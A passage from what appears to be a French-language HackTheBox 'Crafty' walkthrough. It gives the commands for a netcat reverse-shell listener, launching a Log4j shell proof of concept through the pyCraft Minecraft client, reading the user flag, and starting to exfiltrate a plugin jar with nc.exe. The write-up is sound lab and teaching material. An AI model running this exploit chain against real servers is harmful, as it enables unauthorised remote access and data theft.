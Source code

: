 ![Log4j PoC files](/images/HTB-Crafty/log4j-poc-files.png)

Nous avons besoin d'un moyen de communiquer avec le serveur Minecraft, nous utiliserons [pyCraft](https://github.com/ammaraskar/pyCraft). Configurons un environnement virtuel pour pyCraft.

```
virtualenv ENV

source ENV/bin/activate

pip install -r requirements.txt
```

![PyCraft setup](/images/HTB-Crafty/pyCraft-setup.png)

Nous avons également besoin d'un listener netcat

```
rlwrap nc -lvnp 4444
```

Ensuite, nous lançons l'exploit log4j à partir du répertoire `log4j-shell-poc`.

```
python3 poc.py --userip <IP_ADDRESS> --webport 80 --lport <PORT_NUMBER>
```

![Log4j exploit launch](/images/HTB-Crafty/crafty-exploit.png)

Depuis le dossier `PyCraft` nous exécutons `start.py`

```
python3 start.py
```

Après s'être connecté au serveur, nous copions le lien généré par `log4j-shell-poc` (sur la ligne commençant par `[+] Send me:`), nous le collons dans pyCraft puis nous appuyons sur `Enter` pour obtenir une connexion sur le listener.

![PyCraft](/images/HTB-Crafty/PyCraft-connection-link.png)

> Si PyCraft ne parvient pas à se connecter au serveur, réinitialiser la box sur HackTheBox devrait résoudre le problème.

![svc_minecraft shell](/images/HTB-Crafty/shell-minecraft.png)

Nous trouvons `user.txt` sur le bureau de l'utilisateur.

![Crafty user flag](/images/HTB-Crafty/crafty-user-flag.png)

## Elévation de Privilèges

Une archive nommée `playercounter-1.0-SNAPSHOT.jar` est trouvée dans `c:\Users\svc_minecraft\server\plugins\`.

Pour exfiltrer le fichier vers notre machine locale, nous utilisons `nc.exe` (Netcat pour Windows).
